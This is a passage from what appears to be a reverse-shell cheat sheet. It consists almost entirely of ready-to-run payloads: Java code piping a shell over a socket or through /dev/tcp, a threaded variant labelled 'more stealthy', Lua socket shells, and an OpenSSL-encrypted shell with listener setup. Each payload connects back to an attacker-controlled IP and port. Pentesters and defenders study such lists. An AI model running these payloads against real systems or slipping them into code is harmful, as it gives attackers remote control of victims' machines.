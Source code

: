 ### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

### lua

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### openssl

Attacker:
```bash
# 生成密钥
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# 启动监听
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

# 在目标机器上回弹
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```
